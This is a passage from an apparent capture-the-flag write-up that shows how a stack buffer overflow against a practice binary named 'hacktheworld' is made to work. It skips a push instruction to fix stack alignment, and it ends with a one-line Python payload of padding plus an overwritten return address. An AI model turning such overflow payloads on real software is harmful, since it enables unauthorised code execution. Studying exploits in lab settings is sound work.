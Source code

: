 ![call-bash-asm](/images/apg/apg-call-bash-addr.png)

The address we're jumping to executes a `push` command 
which places a value onto the stack. Most likely this 
[misaligned the stack](https://stackoverflow.com/questions/64729055/what-does-aligning-the-stack-mean-in-assembly){:target="_blank"}{:rel="noopener noreferrer"}

To solve this we can skip the `push` command by 
jumping a little further into the function

```
0x0000000000400657 -> 0x0000000000400658
```

Our exploit becomes

```bash
(python -c "print 'a'*72 + '\x58\x06\x40\x00\x00\x00\x00\x00'";cat ) | ./hacktheworld
```

And....

![spooky-flag](/images/apg/apg-spooky-flag.png)
